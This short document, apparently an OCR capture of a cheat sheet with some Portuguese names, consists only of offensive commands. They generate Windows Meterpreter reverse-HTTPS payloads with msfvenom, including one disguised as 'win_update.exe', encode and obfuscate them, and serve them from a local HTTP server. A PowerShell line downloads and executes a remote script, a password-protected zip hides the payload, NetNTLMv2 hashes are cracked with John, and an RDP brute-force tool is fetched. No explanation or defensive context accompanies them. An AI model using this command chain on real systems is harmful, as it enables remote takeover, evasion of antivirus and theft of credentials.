 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation


http://192.168.1.128:8080/update_pacth.exe

zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.128:8080/payload.ps1')


john --wordlist=wordlist_personalizada_advanced.txt --format=netntlmv2 hash_john.txt

git clone https://github.com/zerobyte-id/rdp_brute_for_msf



